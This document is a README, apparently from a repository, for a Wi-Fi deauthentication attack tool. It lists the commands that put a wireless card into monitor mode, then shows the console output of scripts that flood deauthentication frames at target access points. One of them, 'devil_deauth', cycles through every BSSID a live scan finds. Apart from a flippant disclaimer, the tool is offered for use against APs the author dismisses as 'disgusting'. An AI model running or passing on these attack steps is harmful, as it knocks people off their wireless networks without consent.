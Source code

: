 # Deauth Attack
You must not use THIS as DoS in case you did not know...

## Set up

### USB
+ NEC Aterm WL300NU-AG for "wlan1"

### CLI

Open your console or terminal, and follow STRICTLY the order.

```
# service network-manager stop
# ifconfig wlan0 down
# iwconfig wlan0 mode monitor
# ifconfig wlan0 up
```

## Target AP
You should have found some BSSID of disgusting APs using "airodump-ng" and so on...


## Normal Deauth Attack

```
# python deauth_attack.py
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
...
```

## Live Scan BSSID

```
# livescan_bssid.py
c0:25:a2:f5:25:d2 10:6f:3f:88:32:c8
```


## Devil Deauth Attack

```
# python devil_deauth.py
Attacking(10:6f:3f:88:32:c8): Send the Deauthentication flame:)
Attacking(10:6f:3f:88:32:c8): Send the Deauthentication flame:)
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
Attacking(10:6f:3f:88:32:c8): Send the Deauthentication flame:)
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
Attacking(10:6f:3f:88:32:c8): Send the Deauthentication flame:)
Attacking(c0:25:a2:f5:25:d2): Send the Deauthentication flame:)
Attacking(10:6f:3f:88:32:c8): Send the Deauthentication flame:)
...
```
